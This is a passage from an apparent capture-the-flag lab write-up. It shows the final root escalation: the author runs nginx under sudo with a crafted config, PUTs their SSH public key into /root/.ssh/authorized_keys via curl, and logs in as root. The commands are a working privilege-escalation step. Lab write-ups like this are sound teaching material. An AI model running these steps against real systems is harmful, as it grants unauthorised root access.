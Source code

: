 to upload the key in the root ssh directory we can start the server on a different port (i used 7332 instead of 7331):
```bash
sudo /usr/sbin/nginx -c /tmp/myrootwebserver.conf
```
we just need to upload the key that we downloaded via curl:
```bash
curl -X PUT http://127.0.0.1:7332/root/.ssh/authorized_keys -d "$(cat id_rsa.pub)"
```
We uploaded our public key, that means we can login via ssh using our private one (on local machine):
```bash
ssh -i id_rsa root@10.10.11.243
```
We are finally root:
	
![root proof](./pic/root.png)
	
